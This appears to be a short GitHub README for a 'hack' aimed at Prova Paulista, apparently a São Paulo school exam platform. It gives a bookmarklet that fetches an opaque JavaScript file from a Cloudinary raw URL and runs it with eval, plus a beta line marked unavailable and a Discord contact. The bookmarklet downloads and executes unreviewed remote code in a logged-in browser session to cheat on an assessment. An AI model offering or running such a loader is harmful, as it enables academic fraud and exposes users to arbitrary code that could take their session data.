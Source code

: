 # 🚀 HCK - PROVA PAULISTA 

## Version Stable:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
## Version Beta v2:
```
javascript:fetch("INDISPONÍVEL").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
